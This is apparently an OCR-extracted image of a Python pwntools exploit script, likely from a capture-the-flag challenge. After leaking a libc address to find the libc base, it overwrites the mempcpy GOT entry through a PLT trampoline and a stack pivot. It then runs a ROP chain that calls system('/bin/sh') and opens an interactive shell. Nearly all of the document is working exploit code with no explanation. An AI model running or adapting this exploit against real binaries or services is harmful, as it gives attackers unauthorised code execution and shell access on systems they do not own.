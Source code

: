 ```python

    pivot = libc.address + 0x0000000000035732  # pop rsp; ret
    escape = libc.address + 0x00000000000838f8  # pop rsp; jmp rax
    pr15 = libc.address + 0x000000000002a3e4  # pop r15; ret
    ret = libc.address + 0x000000000002be52  # ret

    write_dest = got + 8
    trampoline_offset = slot * 8 - (write_dest - got)
    rop_offset = 0x10
    assert len(rop_chain) <= trampoline_offset - 0x10 - 8, "use fx3 instead"
    info("rop offset: 0x{:x}".format(rop_offset))
    write_data = flat({
        0x00: write_dest + rop_offset,
        0x08: pivot,
        rop_offset: rop_chain,
        trampoline_offset - 8: pr15,
        trampoline_offset: plt0,
        trampoline_offset + 8: [escape, got + 0x3000 - 8]
    }, filler=p64(ret), word_size=64)

    return write_dest, write_data


leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase

got = lbase + libc.dynamic_value_by_tag("DT_PLTGOT")
mempcpy_got = lbase + 0x219040
got_slot = (mempcpy_got - got) // 8

prdi = lbase + 0x000000000002a3e5  # pop rdi; ret
prax = lbase + 0x0000000000045eb0  # pop rax; ret

rop_chain = flat(
    prdi, libc.search(b"/bin/sh").__next__(),
    prax, libc.sym["system"]
)
dest, payload = fx4(libc, slot=(mempcpy_got - got) // 8, rop_chain=rop_chain)

ss("write payload to {}, length {}".format(hex(dest), hex(len(payload))))
sd(p64(dest))
sd(p64(len(payload)))
sd(payload)

interact()
```

